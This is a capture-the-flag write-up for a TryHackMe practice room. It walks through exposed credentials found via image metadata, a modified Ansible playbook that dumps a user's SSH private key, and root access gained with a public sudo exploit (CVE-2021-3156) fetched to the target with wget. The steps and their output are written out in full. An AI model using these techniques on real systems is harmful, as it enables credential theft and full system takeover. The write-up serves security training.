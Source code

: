 # Cat Pictures 2 Writeup

### Room link : https://tryhackme.com/room/catpictures2

## Port Scan
```
 kewl@h4x0r > ~/Desktop/leet/l > rustscan -a 10.10.158.237 -t 5000 -- -sV
...
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     syn-ack OpenSSH 9.0 (protocol 2.0)
1337/tcp open  waste?  syn-ack
3000/tcp open  ppp?    syn-ack
8080/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.6.9)
...
...
```

Lychee is hosted on port 80 , Gitea on port 3000 and OliveTin on port 1337

## Flag 1

head over to 10.10.158.237:80 and check the images. Description of the first images says "note to self: strip metadata". Download the image and run exfitool on it.

```
 kewl@h4x0r > ~/Desktop/leet/l > exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg | grep Title
Title                           : :8080/[REDACTED].txt
```

Now head over to 10.10.158.237:8080/[REDACTED].txt

```
 kewl@h4x0r > ~/Desktop/leet/l > curl http://10.10.158.237:8080/[REDACTED].txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: [REDACTED]

ansible runner (olivetin): port 1337
```

Lets use the password to log into samarium's Gitea account.
The user owns a private repo with the name "ansible"

![](1.png)

## Flag 2
Now lets check ansible runner (olivetin) at port 1337.
Click on "Run Ansible Playbook" and wait for it to finish, then check the logs<br>
![](2.png)

There is user named "bismuth". lets check if this user has a ssh key.<br>
Remember that we can edit playbook.yaml in ansible repo to execute the commands we want.
change "whoami" to "cat /home/bismuth/.ssh/id_rsa"
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: cat /home/bismuth/.ssh/id_rsa
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```
Head over to OliveTin and run ansible playbook.
![](3.png)<br>
Use the private key to log into bimuth's account using ssh
```bash
chmod 600 bismuth_key
ssh -i bismuth_key bismuth@10.10.158.237
```
```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
bismuth@catpictures-ii:~$ cat flag2.txt
[REDACTED]
```

## Flag 3
On running linpeas, I noticed that the sudo binary is outdated and we can get root by running the exploit for CVE-2021-3156<br>
![](4.png)<br>
The exploit can be found here : https://github.com/blasty/CVE-2021-3156<br>
Clone it onto your host machine and start SimpleHTTP server<br>
![](5.png)

Download the files onto the remote machine
```bash
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/brute.sh
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/hax.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/lib.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/Makefile
.
.
bismuth@catpictures-ii:~$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# cd /root
# ls
ansible  docker-compose.yaml  flag3.txt  gitea
# cat flag3.txt           
[REDACTED]
```
